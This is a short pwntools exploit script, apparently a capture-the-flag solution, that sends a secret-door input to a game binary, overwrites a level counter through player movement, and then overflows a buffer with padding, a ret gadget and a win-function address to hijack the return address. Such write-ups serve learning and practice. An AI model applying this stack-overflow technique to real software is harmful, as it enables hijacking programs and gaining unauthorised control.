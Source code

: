 ```py
io.recvuntil("player at 8, 14")

# One extra character to open secret door! :)
io.send('OPENSESAMIJ')

# Now go to y = 18, x = 8-4 to overwrite the levels counter :)
overwrite_levels = 'ssssaaaaddddwwwwdddddd'
io.send(overwrite_levels)

rip_offset = 0x38
win = 0x4017b4
ret_gadget = 0x40079f

# Send winning payload and enjoy :)
io.recvuntil(b'record your name : ')
io.sendline(b'A' * rip_offset + p64(ret_gadget) + p64(win))

io.interactive()
```
